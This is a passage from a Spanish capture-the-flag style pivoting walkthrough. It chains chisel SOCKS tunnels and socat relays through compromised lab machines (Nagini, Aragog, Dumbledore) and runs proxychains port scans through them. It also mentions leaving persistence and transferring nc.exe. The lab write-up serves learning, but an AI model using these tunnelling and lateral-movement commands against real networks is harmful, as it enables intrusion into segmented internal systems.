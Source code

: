 Y funciona, ueueueue.

**Completado el segundo túnel**. Ahora mismo estamos pasando por dos túneles y conectamos no solo con la Nagini sino también con la Fawks y Dumbledore.

Agilizando con el uso de **xargs** igual que vimos antes al pasar por túneles puede ir lento, y ahora más con un dual-proxy:
```sh
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n 10.10.100.129 2>&1 | grep "tcp open"
```

Desde el **navegador** si quiseras ver la web de Fawkes tendrías que añadir un **nuevo proxy**:

Proxy Types: Socks5  
IP: 127.0.0.1  
Port: 8888  
Básicamente donde te abriste el nuevo túnel. Ahora al pasar por este nuevo proxy podrás ver la web de Fawks.

> Si te conectas por ftp por proxy al lanzar comandos dentro puede saltarte el error: Address already in use. Para solucionarlo usa comando **passive**.


## En la Dumbledore rumbo Matrix. Tercer túnel y último.

Una vez rooteada la máquina Dumbledore y dejando persistencia para conectarnos por ssh en el fúturo creamos el tercer túnel para poder llegar a la máquina **Matrix**.

> Si la máquina es un Windows como es el caso de la Dumbledore que será la cliente del chisel, tenemos que hacer el uso del chisel para Windows, también en github.

Para trasnferirlo; con socat y redirigiendo por el 445 abriendo un smb. Se ve en el video [aquí](https://www.youtube.com/watch?v=Q7UeWILja-g&t=1501s&ab_channel=S4viOnLive%28BackupDirectosdeTwitch%29), por aquí lo dejo, minuto 4h20min más o menos, lo hacemos para pasarnos nc.exe y lo aprovechamos para el chissel.

Así que desde Dumbledore tenemos la intención de llegar a mi máquina atacante por el puerto que abrimos al crearnos el server con chisel por el puerto 1234. 
La idea es la misma, desde Dumbledor se actuará como cliente, ya que es la máquina intermedia que hará de puente para llegar a los nuevos equipos, ya que solo Dumbledore tiene acceso a ellas.  
No puedo conectarme directamene desde Dumbledora a mi compu, conectariamos el cliente con la Nagini que es el nodo más cercano. Desde Dumbledore ejecutamos el cliente:
```sh
./chisel.exe client 192.168.100.128:6543 R:9999:socks
# 192.168.100.128 Ip de la Nagini. Nos conectaremos a ella por el puerto 6543.
# R:9999:socks Nos abrimos el tercer proxy tipo socks.
```
Antes de ejecutar lo anterior, desde la Nagini:
```sh
./socat TCP-LISTEN:6543,fork TCP:192.168.0.128:6542
# Todo lo que llegue por el puerto 6543, que será la conexión del chisel, lo redirigimos por TCP al nodo más cercano que es la Aragog con ip 192.168.0.128 al puerto 6542
```
Desde Aragog habrá que hacer lo mismo pero ya hacia mi compu:
```sh
./socat TCP-LISTEN:6542,fork TCP:192.168.111.106:1234
# Lo mismo al puerto 1234 que es donde yo tengo abierto el servidor de chisel.
```
Ejecutamos las instrucciones en las tres máquinas de abajo arriba mejor, tiene sentido.  
Recibiremos en nuesta máquina atacante en la terminal del servidor de chisel la conexión-túnel por el puerto 9999 que nos permitirá llegar a los nuevos equipos encontramos solo visibles por la Dumbledore.
